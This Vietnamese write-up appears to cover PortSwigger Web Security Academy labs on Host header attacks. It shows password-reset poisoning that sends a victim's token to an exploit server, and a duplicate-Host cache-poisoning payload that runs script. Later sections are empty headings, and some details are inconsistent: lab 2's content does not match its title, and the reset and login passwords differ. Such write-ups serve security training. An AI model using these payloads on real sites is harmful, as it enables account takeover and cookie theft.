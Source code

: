# 1. Basic password reset poisoning
Dùng chức năng forgot password với tham số `username=wiener` rồi vào Email Client kiểm tra, thấy URL để reset password là `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=R9Qgu9I1N6a2aN3P3siCSAQoNtJkOu2k`.

Thử thay đổi header `Host: test.com` rồi gửi lại, thì kết quả URL reset trở thành `https://test.com/forgot-password?temp-forgot-password-token=1kbaGZSQ0CofoeyPFQKHXUasCLvaewHH`. Như vậy website cấu hình URL reset password sử dụng Host header. 

Ta thay đổi header `Host: exploit-0a08009d04bfdf7bc0a03a1a018100ea.exploit-server.net` và chỉnh tham số `username=carlos`. Sau khi submit, vào Access Log kiểm tra thì thấy có request gửi đến chứa một reset password token:
```
10.0.4.223      2023-03-06 02:02:50 +0000 "GET /forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.119 Safari/537.36"
```
Đó là reset token của user carlos. Ta truy cập `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO` rồi tiến hành đổi mật khẩu thành `hello`, sau đó đăng nhập với credentials `carlos:password`, kết quả thành công. 

# 2. Host header authentication bypass
Trong Home page có một đoạn tracking script:
```
<script type="text/javascript" src="//0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net/resources/js/tracking.js">
```
Ta thử thêm một duplicate Host header vào trong request sử dụng Burp Repeater:
```
GET / HTTP/1.1
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: test.com
```
Khi đó, domain name trong tracking script cũng trở thành `test.com`. Để ý rằng website có sử dụng cache, và khi ta thay đổi Host header thứ 2 thì cache vẫn trả về trạng thái "hit". Như vậy ta có thể exploit web cache poisoning như sau:

Gửi request `GET /` với header
```
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```
Submit đến khi response chứa tag script được lưu vào cache. Khi victim truy cập home page, lệnh alert sẽ được thực thi.

Như vậy, bài lab được giải thành công.

# 3. Web cache poisoning via ambiguous requests

# 4. Routing-based SSRF

# 5. SSRF via flawed request parsing

# 6. Host validation bypass via connection state attack

# 7. Password reset poisoning via dangling markup
